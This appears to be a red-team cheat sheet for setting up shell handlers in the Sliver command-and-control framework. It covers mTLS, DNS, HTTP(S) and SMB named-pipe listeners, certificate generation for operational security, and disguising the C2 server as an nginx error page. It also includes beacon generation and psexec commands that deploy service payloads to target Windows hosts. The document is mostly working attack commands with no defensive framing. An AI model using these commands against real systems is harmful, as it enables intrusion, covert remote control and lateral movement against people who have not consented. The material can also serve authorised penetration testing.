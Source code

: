 # 03 - Shell Handler

Search Tag(s): #sliver #command-and-control

## 3.1 - TCP

`sliver > mtls -L <IP> -l <PORT>`

## 3.2 - DNS

`sliver > dns -d <domain>`

## 3.3 - HTTP(S)

### 3.3.1 - Use custom TLS key and certificate (this is optional but recommended for OPSEC)

Encrypted TLS key and certification.

```
$ openssl req -x509 -newkey rsa:4096 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -sha256 -days 365
```

Non-encrypted TLS key and certification.

```
$ openssl req -new -x509 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -days 365 -nodes

sliver > http [-d <domain.com>] -L <IP> -l <PORT>

sliver > https [-d <domain.com>] -L <IP> -l <PORT> -c /path/to/certificate.crt -k /path/to/private.key
```

### 3.3.2 - Disguise the C2 as a website

```
sliver > websites add-content -w -p /index.html -c /home/user/nginx_error.html

sliver > http -w error [-d <domain.com>] -L <IP> -l <PORT>

sliver > websites rm-content -w error -p /index.html
```

## 3.4 - SMB

```
sliver > pivots named-pipe -b <pipe_name>

sliver > profiles new [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -l -a x64 -o windows -f service <profile_name>

sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -p <profile_name> <target_IP>
```

* You can use a custom exe

```
sliver > generate [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -a x64 -o windows -f service -s /path/to/folder

sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -c /path/to/shellsvc.exe -p <profile_name> <target_IP>
```